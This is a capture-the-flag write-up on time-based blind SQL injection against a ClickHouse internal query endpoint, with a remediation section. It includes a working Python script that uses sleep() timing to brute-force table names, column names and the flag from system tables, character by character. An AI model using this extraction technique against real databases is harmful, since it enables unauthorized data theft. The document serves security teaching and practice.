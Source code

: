 # sqli101 - part 3

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQueryInBlind(query)
```

## Exploitation
We can run whatever query we are interested in, but we do not see the result of our query.
Our goal will be to guess / bruteforce the data one character at a time. To detect our guess is right we will leverage the `sleep(seconds)` function available in ClickHouse to increase the query duration.

The bruteforce part can be harmonized in a method, leading to a small Python script.
Note: We could also play with the LIMIT/OFFSET to list multiple tables and columns.
```python
import requests
import string

def brute(column_name, table, where_cond = ''):
  where_clause = 'WHERE ' + where_cond if where_cond else ''

  value = ''
  found = True
  while found:
    found = False
    for c in (string.ascii_lowercase + string.ascii_uppercase + string.digits + "_{}$!?"):
      query = f"SELECT if(startsWith({column_name}, '{value + c}'), sleep(0.1), 1) FROM {table} {where_clause} LIMIT 1 OFFSET 0"
      response = requests.post('http://localhost:80/internal/test_query_validity', json={'query': query})

      if response.elapsed.total_seconds() >= 0.1:
        value += c
        found = True
        break

  return value

table = brute('name', 'system.tables', "database = 'default'")
print(f"Table found: {table}")

column = brute('name', 'system.columns', f"database = 'default' and table = '{table}'")
print(f"Column found: {column}")

flag = brute(column, f"default.{table}")
print(f"Flag: {flag}")
```

## Fix
Internal API must never be available openly in prod.
Finding weird URL names is not a fix.

The quickest fix is to delete the code.
But if we want to keep the "feature", it should be behind a login page where only internal users can connect to.
